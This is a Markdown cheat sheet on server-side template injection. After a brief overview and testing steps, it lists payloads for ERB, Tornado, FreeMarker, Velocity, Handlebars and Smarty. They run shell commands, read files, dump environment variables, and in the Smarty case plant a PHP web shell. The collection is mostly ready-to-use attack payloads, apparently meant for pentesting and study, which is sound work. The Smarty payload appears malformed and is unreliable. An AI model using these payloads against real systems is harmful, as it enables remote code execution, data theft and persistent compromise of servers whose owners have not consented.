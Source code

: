 # Server-Side Template Injection {SSTI}

## Overview

+ Server Side template injection is a vulnerability that arises when the web application utilizes a templating engine and excepts user input directly into a templated field or allows a user to use template commands directly without; limit, sanitization or restriction

## Testing for Server-Side Template Injection

+ Fuzz URL parameters with template syntax
+ Where page editing which returns somewhere on the web application is possible fuzz those inputs
+ Attempt to induce template related errors which reveal the template engine in use
+ Craft a exploit specific to the templating engine

![Determining Template Engine](./images/Template_Engine_Decision_Diagram.png)

~ From [Portswigger](https://portswigger.net/web-security/images/template-decision-tree.png) ~

### Typical Examples of Injectable Areas

#### URL Parameters

`domain.net/message?=close_template_tag}}insert_payload`

`domain.net/message?=close_template_tag%>insert_payload`

#### Page Editors

```
<p>Add ur html yay</p>

<p>{{payload}}</p>

```

### Identification Polyglots

`${{<%[%'"}}%\`

## Payloads By Template Engine

### ERB 

#### Tag Syntax

`<%= %>`

#### Identification Payloads

`<%= 7*7 %>`

#### General Payloads

`<%= system("cat /path/to/file") %>`

`<%= Dir.entries('/') %>`

`<%= File.open('/example/arbitrary-file').read %>`

### Tornado

#### Tag Syntax

`{{ }}`

#### Identification Payloads

`{{7*7}}`

#### General Payload

`{% import os %}{{ os.popen("cat /path/to/file").read() }}`

#### FreeMarker

##### Tag Syntax

`${ }`

#### Identification Payloads

`${7*7}`

##### General Payload

`<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("cat /path/to/file") }`

### Velocity

#### Tag Syntax

`$class`

#### Identification Payloads

```
#set( $a = "Velocity" )
$foo
```

#### General Payload

```
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("cat /path/to/file"))$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))
#end
```

### Handlebars

#### Tag Syntax

`{{ }}`

#### General Payload

```
wrtz{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('cat /path/to/file');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

### Smarty

#### Tag Syntax

#### General Payload

`{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cat /path/to/file']); ?>",self::clearConfig())}`

## Dumping Template Objects

+ It may not always be possible to escalate a SSTI vulnerability to gain RCE
+ However where template injection is possible there is still a high potential for sensitive data exposure and vulnerability chaining
+ One way to develop a meaningful exploit from a SSTI is to use the native templating languages environment variables to dump all the objects used in the context including custom developer ones

### JAVA Based Engines

`${T(java.lang.System).getenv()}`

## Resources

+ [ERB Syntax](https://www.stuartellis.name/articles/erb/)
+ [Server-Side template injection in tornado](https://opsecx.com/index.php/2016/07/03/server-side-template-injection-in-tornado/)
+ [ERB Template-Injection](https://www.trustedsec.com/blog/rubyerb-template-injection/)
+ [Black Hat Server-Side Template Injection](https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf)